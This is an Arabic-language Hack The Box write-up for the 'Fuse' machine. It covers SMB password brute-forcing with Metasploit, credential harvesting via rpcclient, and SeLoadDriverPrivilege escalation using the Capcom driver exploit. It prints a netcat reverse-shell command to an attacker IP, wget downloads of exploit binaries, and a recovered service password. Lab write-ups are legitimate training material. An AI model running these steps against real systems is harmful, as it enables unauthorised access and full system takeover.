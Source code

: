 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/

**_Sammmry:_**

![Desktop View](/img/fuse/b.jpeg)

```
شيقة جدا نبدا بجمع machine هي fuse السلام عليكم اليوم ساقوم بشرح
للحصول على يوزر بعد ذلك نستغل brutforceمعلومات ثم نقوم ب
admininistratorلنحصل على صلاحيات seLoadDriver
```

   - 1.1 Nmap
- 2 Port
   - 2.1 Fuse. fabricorp.local
- 3 User
   - 3.1 brutforce
   - 3.2 Smbpasswd
   - 3.3 rpcclient
   - 3.4 User brutforce
- 4 Privilege escalation
   - 4.1 SeLoadDriverPrivilege
   - 4.2 Compile
   - 4.3 exploit


Recon

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```
![Desktop View](/img/fuse/1.png)
## 2 Port

### 2.1 Fuse. fabricorp.local

#### نلاحظ وجود البورت 80 الخاص بالويب سيرفر مفتوح 

```
fuse.fabricorp.local عند التصفح يقوم السيرفر بتحويلنا الى هذا الدومين 
/etc/hosts نضيف هذا الدومين في ملف
: ثم نقوم بفتحه على المتصفح
```
![Desktop View](/img/fuse/2.png)
#### بعد ذلك نقوم بجمع المعلومات نجد بعض اليوزرس
![Desktop View](/img/fuse/3.png)

```
 ثم نقوم بسحب كلمات من الدومين user.txt نضع هذه اليوزرس في ملف
باستخدام الامر التالي brutforceلاستعمالها في 
```
cewl -d 5 -m 3 -w wordlist
[http://fuse.fabricorp.local/papercut/logs/html/index.htm](http://fuse.fabricorp.local/papercut/logs/html/index.htm)

## 3 User

### 3.1 brutforce

![Desktop View](/img/fuse/4.png)
```
msconsole نقوم بتشغيل الميتاسبلويت بالامر
: ثم
```

```
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.10.10.
set user_file user.txt
set pass_file wordlist
run

```


![Desktop View](/img/fuse/5.png)


![Desktop View](/img/fuse/6.png)



### 3.2 Smbpasswd

#### الان حصلنا على اسم مستخدم وكلمة سر لنقوم بتجريبها

```
smbclient -L fuse.htb -U tlavel
يخبرنا انه علينا تغير كلمة samabaعندما نحاول الاتصال ب
: السر نغير كلمة السر باستخدام الامر التالي
smbpasswd -r fuse.htb -U tlavel
```
![Desktop View](/img/fuse/7.png)

### 3.3 rpcclient

 #### : ثم نتصل باستخدام الامر التالي بكلمة السر الجديدة

rpcclient -U FABRICORP\\tlavel 10.10.10.193

```
نسحب اليوزرس
```
rpcclient $> enumdomusers

```
نسحب كلمة المرور
```
rpcclient $> enumprinters

![Desktop View](/img/fuse/8.png)


### 3.4 User brutforce

![Desktop View](/img/fuse/9.png)

```
user.txtنضع اليوزرس في ملف
cut ثم نقوم بالتعديل عليه باستخدام
مرة اخرى بالميتاسبلويت brutforce ثم نقوم بعمل
وكلمة السر users.txt لملف
```

‫‪$fab@s3Rv1ce$1‬‬

![Desktop View](/img/fuse/10.png)


#### الان وجدنا اليوزر و كلمة السر نقوم ب الدخول الى السيرفر

```
:بالامر التالي evil-winrm باستخدام
```
evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i
fuse.htb


## 4 Privilege escalation

![Desktop View](/img/fuse/11.png)

```
whoami /all نكتب الامر
```

### 4.1 SeLoadDriverPrivilege

“Load and unload device drivers” policy

SeLoadDriverPrivilege Load and unload device drivers Enabled

```
: بالبحث في جوجل نجد مقال جيد يتحدث عن الاستغلال
https://www.tarlogic.com/en/blog/abusing-
/seloaddriverprivilege-for-privilege-escalation
: من هنا eoploaddriver.cpp نقوم بتحميل
https://raw.githubusercontent.com/TarlogicSecurit
y/EoPLoadDriver/master/eoploaddriver.cpp
: من هنا ExploitCapcom.cpp و
https://github.com/tandasat/ExploitCapcom
visual studio ب compile نعمل لهم
:او يمكنك تحميل الملفات الخاصة بي من هنا
```
https://github.com/FASTO96/hackthebox/blob/master/Fuse/fuse.zip

### 4.2 Compile


```
exploitCapcom.cppل compile نقوم بعمل
```



```
الى مكان ا C:\\Windows\\system32\\cmd.exe مع تغير
c:\\temp\\fasto.bat الخاص بنا shell
```




![Desktop View](/img/fuse/12.PNG)





<br>  





![Desktop View](/img/fuse/13.png)






```
: Fasto.bat
```
c:\temp\nc64.exe 10.10.14.212 1337 -e powershell.exe

```
الخاص بك ip غير 10.10.14.212 الى 
```

#### نقوم برفع الملفات على السيرفر 

```
python serverاولا نشغل
```
![Desktop View](/img/fuse/14.png)


```
c:\تحت temp  ثم ننشا مجلد باسم 

: لاوامرا wgetثم نقوم بالرفع في هذا المجلد باستخدام
```




```
wget http://10.10.14.212/Capcom.sys -O Capcom.sys
wget http://10.10.14.212/ExploitCapcom.exe -O ExploitCapcom.exe
wget http://10.10.14.212/fasto.bat -O fasto.bat
wget http://10.10.14.212/nc64.exe -O nc64.exe
wget http://10.10.14.212/Eoploaddriver.exe -O Eoploaddriver.exe

```











![Desktop View](/img/fuse/15.png)


### 4.3 exploit

#### الان نقوم بالاستغلال

.\Eoploaddriver.exe System\CurrentControlSet\MyService C:\temp\capcom.sys
.\ExploitCapcom.exe

![Desktop View](/img/fuse/16.png)




![Desktop View](/img/fuse/17.png)


![Desktop View](/img/fuse/18.png)


